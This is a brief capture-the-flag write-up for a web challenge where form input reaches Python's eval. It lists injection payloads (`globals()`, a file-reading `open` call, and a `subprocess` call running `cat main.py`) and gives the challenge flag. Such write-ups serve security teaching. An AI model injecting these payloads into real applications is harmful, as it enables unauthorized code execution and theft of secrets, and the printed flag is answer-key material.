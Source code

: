 # Addition

The user input from the form is being passed into the eval function which can be very dangerous.  

We can abuse eval by passing in `globals()` which will return the contents of the variables that contain the flag.

Although there are many different ways to get the flag, for e.g.

`open("main.py", "r").readlines()`

`__import__('subprocess').run(['cat', 'main.py'], capture_output=True)`

etc

## Payload
`globals()`

## Flag

DUCTF{3v4L_1s_D4ng3r0u5}
